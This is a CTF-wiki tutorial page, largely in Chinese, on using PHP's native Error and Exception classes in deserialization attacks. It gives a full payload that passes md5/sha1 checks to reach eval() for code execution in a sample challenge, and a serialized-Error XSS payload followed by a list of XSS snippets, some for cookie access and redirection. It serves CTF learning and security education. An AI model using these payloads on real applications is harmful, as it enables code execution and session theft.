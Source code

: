 # ERROR类和exception类
!!! warning
    The current page still doesn't have a translation for this language.

    You can read it through google translate.

    Besides, you can also help to translate it: [Contributing](https://ctf-wiki.org/en/contribute/before-contributing/). 



顾名思义，error类是php中的报错类


exception为php中的异常类。


因为它内置有一个`__toString()`的方法，常用于PHP 反序列化中。


接下来介绍用法（欢迎补充姿势）


## 1 .md5()和sha1()绕过


md5函数的绕过应该大家都清楚，最常用的方法是null==null。


也就是传参的时候变为数组，然后使php解析报错


那么这里其实原理很为类似


`Error` 是所有PHP内部错误类的基类，该类是在PHP 7.0.0 中开始引入的。


* `Error::__construct`— 初始化 error 对象

* `Error::getMessage`— 获取错误信息

* `Error::getPrevious`— 返回先前的 Throwable

* `Error::getCode`— 获取错误代码

* `Error::getFile`— 获取错误发生时的文件

* `Error::getLine`— 获取错误发生时的行号

* `Error::getTrace`— 获取调用栈（stack trace）

* `Error::getTraceAsString`— 获取字符串形式的调用栈（stack trace）

* `Error::__toString`— error 的字符串表达

* `Error::__clone`— 克隆 error

`Exception` 是所有异常的基类，该类是在PHP 5.0.0 中开始引入的。


* `Exception::__construct`— 异常构造函数

* `Exception::getMessage`— 获取异常消息内容

* `Exception::getPrevious`— 返回异常链中的前一个异常

* `Exception::getCode`— 获取异常代码

* `Exception::getFile`— 创建异常时的程序文件名称

* `Exception::getLine`— 获取创建的异常所在文件中的行号

* `Exception::getTrace`— 获取异常追踪信息

* `Exception::getTraceAsString`— 获取字符串类型的异常追踪信息

* `Exception::__toString`— 将异常对象转换为字符串

* `Exception::__clone`— 异常克隆

两个函数均有__tostring类


稍微解释下：（暗示例子）


```php
<?php
error_reporting(0);
class SYCLOVER 
{        
    public $syc;    
    public $lover;       
    public function __wakeup()      
    {       
        if( 
            ($this->syc != $this->lover) 
            && (md5($this->syc) === md5($this->lover)) 
            && (sha1($this->syc)=== sha1($this->lover)) 
        )      
        {                          
            if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match))           
            {
                eval($this->syc);
            }
            else 
            {               
                die("Try Hard !!");           
            }                   
        }    
    }
}
if (isset($_GET['great'])) 
{    
    unserialize($_GET['great']);
} 
else 
{    
    highlight_file(__FILE__);
}
?>
```



(看到这个syclover就想到那张大脸。。。）


比较典型的反序列化。


想要达成代码执行必须先通过上面的md5和sha1的比较匹配。


由于是因为在类中，数组是用不了的。


想想__tostring的调用方法：


当类被当成字符串时调用


于是我们构造一条链


unserilize->__wakeup()->error()类->__tostring->eval()函数


```php
<?php
class SYCLOVER 
{ 
    public $syc; 
    public $lover; $str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
} 
$a=new Error($str,1); 
$b=new Error($str,2);//原生类用在这里 
$c = new SYCLOVER(); 
$c->syc = $a; 
$c->lover = $b;
echo(urlencode(serialize($c)));
?>
```



这就是最后的payload


这里应该是能看懂


ps:`?>`是因为ERROR报错类会跳出一长串不可预知的报错信息，需要命令执行的话需要用`?>`去闭合掉爆出来的杂七杂八的信息。`~`是取反符号绕过过滤。（理解一下，和异或很类似）。


`eval("...Error: ?><?php payload ?>")`


## 2.PHP7.0下的XSS


```php
<?php
$a = unserialize($_GET['whoami']);
echo $a;
?>
```



上面的代码只有一个简单的反序列化，并没有给出类，这时候一般都会去思考一下原生类。


```php
<?php
$a = new Error("<script>alert('xss')</script>");
$b = serialize($a);
echo urlencode($b);  
?>
```



然后报错把插入的XSS代码执行。


之后一般会用到XSS里面的知识模块例如：



`<script>alert("内容")</script>`    使用`<script>`标签，弹出消息对话框


`<body onload=alert("内容")>`   使用`<body>`标签，弹出消息对话框


`<a href=“”onclick=alert(“内容”)>链接文字</a>` 使用`<a>`标签，显示可点击链接，点击链接后弹出消息对话框


`<imgsrc=WrongIP onerror=alert("内容")>`   使用`<img>`标签，弹出消息对话框


`<script>window.location.href="网站地址"</script>`  使用`<script>`标签，重定向页面


`<script>alert=(document.cookie)</script>`   使用`<script>`标签，cookie获取


等等


例题可以看这个：（网上蛮多的我就不放了）